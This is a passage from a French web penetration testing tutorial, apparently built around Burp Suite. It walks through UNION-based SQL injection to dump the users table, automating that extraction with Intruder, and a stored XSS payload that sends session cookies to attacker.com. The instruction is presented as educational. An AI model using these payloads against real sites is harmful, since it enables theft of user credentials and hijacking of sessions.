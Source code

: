 #### Exploitation Progressive

**Détermination du Nombre de Colonnes :**
1. Utiliser la technique UNION pour déterminer la structure :
   - `q=laptop' UNION SELECT 1--` (Erreur)
   - `q=laptop' UNION SELECT 1,2--` (Erreur)
   - `q=laptop' UNION SELECT 1,2,3--` (Succès)
2. Identifier les colonnes affichées :
   - `q=laptop' UNION SELECT 'A','B','C'--`
   - Observer quelles valeurs apparaissent dans la réponse

**Extraction d'Informations Système :**
1. Identifier la base de données :
   - `q=laptop' UNION SELECT version(),database(),user()--`
2. Lister les tables disponibles :
   - `q=laptop' UNION SELECT table_name,2,3 FROM information_schema.tables WHERE table_schema=database()--`
3. Identifier les tables sensibles : `users`, `orders`, `admin_users`

**Extraction de Données Sensibles :**
1. Lister les colonnes de la table users :
   - `q=laptop' UNION SELECT column_name,2,3 FROM information_schema.columns WHERE table_name='users'--`
2. Extraire les données utilisateur :
   - `q=laptop' UNION SELECT username,password,email FROM users--`
3. Analyser les hashes de mots de passe et tenter le cracking

#### Automatisation avec l'Intruder

**Configuration de l'Extraction Automatisée :**
1. Envoyer la requête d'injection vers l'Intruder
2. Configurer la position d'injection sur la partie variable de la requête
3. Créer une liste de payloads pour extraire différentes tables :
   - `' UNION SELECT username,password,email FROM users WHERE id=§1§--`
4. Utiliser l'attaque Sniper avec une liste d'identifiants (1-100)
5. Analyser les résultats pour extraire toutes les données utilisateur

### Cas Pratique : Exploitation XSS et Session Hijacking

Ce cas pratique illustre l'exploitation d'une vulnérabilité XSS pour réaliser un vol de session, démontrant l'impact réel des vulnérabilités apparemment "mineures".

#### Identification de la Vulnérabilité XSS

**Découverte du Point d'Injection :**
1. Identifier un champ de commentaire sur un produit
2. Tester l'injection de base : `<script>alert('XSS')</script>`
3. Observer que le script est exécuté lors de l'affichage du commentaire
4. Confirmer que le commentaire est visible par d'autres utilisateurs

**Développement de l'Exploit :**
1. Créer un payload de vol de cookie :
   ```javascript
   <script>
   var img = new Image();
   img.src = 'https://attacker.com/steal.php?cookie=' + document.cookie;
   </script>
   ```
2. Tester le payload dans un environnement contrôlé
3. Configurer un serveur de réception pour capturer les cookies
